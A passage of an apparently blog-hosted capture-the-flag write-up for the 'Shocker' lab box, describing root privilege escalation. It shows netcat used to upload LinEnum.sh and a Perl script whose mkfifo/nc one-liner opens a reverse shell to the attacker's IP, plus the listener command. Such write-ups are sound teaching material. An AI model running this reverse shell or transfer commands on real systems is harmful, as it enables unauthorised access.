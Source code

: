 ## Getting the `root` flag (it was cool)
As my first try, ran the obvious `sudo su` but it didn't work because the user's password was unknown. 

### LinEnum
So, there is this awesome enumeration script called `LinEnum.sh` (that can be found [here](https://github.com/rebootuser/LinEnum)). Since the box couldn't communicate with the outer-world, I had to upload it from my machine and I chose `nc` to do that.

> On my machine
{:.filename}
{% highlight text %}
{% raw %}
root@kali:~/ctf/shocker# nc -nlvp 1233 < LinEnum.sh 
listening on [any] 1233 ...
{% endraw %}
{% endhighlight %}

> On the server
{:.filename}
{% highlight text %}
{% raw %}
shelly@Shocker:/usr/lib/cgi-bin$ cd /tmp
shelly@Shocker:/tmp$ nc 10.10.15.101 1233 > enum.sh
shelly@Shocker:/tmp$ sh enum.sh -t -r shocker
{% endraw %}
{% endhighlight %}

The produced report was named `shocker-04-02-18` and I downloaded it via `nc` (that I'll suppress).
Upon reading it, I saw that `/bin/perl` could be ran as `root`. At this point, I noticed that I was very close. I could just write a script to print the `root` flag but that would be pretty boring, right? I'd rather get a `root` shell just for fun! And so I came up with this simple script:

> root.pl
{:.filename}
{% highlight text %}
{% raw %}
#!/bin/perl
system("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.15.101 1233 >/tmp/f");
{% endraw %}
{% endhighlight %}

And proceeded to get the desired shell:
> On my machine
{:.filename}
{% highlight text %}
{% raw %}
root@kali:~/ctf/shocker# nc -nlvp 1233
listening on [any] 1233 ...
{% endraw %}
{% endhighlight %}

